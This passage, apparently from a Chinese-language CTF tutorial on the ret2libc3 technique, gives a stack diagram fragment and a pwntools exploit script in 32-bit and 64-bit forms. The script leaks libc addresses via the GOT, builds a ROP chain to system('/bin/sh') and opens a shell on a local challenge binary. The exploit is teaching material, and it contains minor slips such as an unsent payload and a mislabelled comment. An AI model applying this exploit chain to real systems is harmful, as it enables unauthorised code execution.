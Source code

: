 ```c
|  	system函数的返回地址| <--- 覆盖一个什么都可以p32(0)或p64(0)对齐
+---------------------+
|  新函数的第一个参数    | <--- 覆盖bin/sh地址用作参数 
+---------------------+ 
```

对应的exp如下：

```python
from pwn import *
#32位
e = ELF("./ret2libc3_32")
libc = ELF("/lib/i386-linux-gnu/libc.so.6") #确定libc库并解析
p = process("./ret2libc3_32")

puts_plt = e.plt['puts'] #puts函数的入口地址
puts_got = e.got['puts']  #puts函数的got表地址
start_addr = e.symbols['_start'] #程序的起始地址
payload1 = b'a' * 112 + p32(puts_plt) + p32(start_addr) + p32(puts_got)

p.sendlineafter("Can you find it !?", payload1)
puts_real_addr = u32(p.recv()[0:4])  #接收puts的真实地址，占4个字节
libc_addr = puts_real_addr - libc.sym['puts'] #计算libc库的基地址
print(hex(libc_addr))
system_addr = libc_addr + libc.sym["system"] #计算system函数的真实地址
binsh_addr = libc_addr + next(libc.search(b"/bin/sh"))  #计算binsh字符串的真实地址
payload2 = b'a' * 112 + p32(system_addr) + p32(0) + p32(binsh_addr)

#64位
pop_rdi_ret_addr = 0x400783 #多了一个pop rdi来控制函数地址
puts_plt = e.plt['puts'] #puts函数的入口地址
read_got = e.got['read']  #puts函数的got表地址
start_addr = e.symbols['_start'] #程序的起始地址
offset = 88

payload = b"a" * offset
payload += p64(pop_rdi_ret_addr)
payload += p64(read_got)
payload += p64(puts_plt)
payload += p64(start_addr)
p.send(payload)

read_real_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))
libc_base = read_real_addr - libc.sym["read"]
print("libc_base: ", hex(libc_base))
system_addr = libc_base + libc.sym["system"]
binsh_addr = libc_base + next(libc.search(b"/bin/sh"))

payload = b"a" * offset
payload += p64(0x400509) #需要添加一个ret，仅仅用于栈平衡
payload += p64(pop_rdi_ret_addr)
payload += p64(binsh_addr)
payload += p64(system_addr)
p.recv()
p.send(payload)
p.interactive()
```
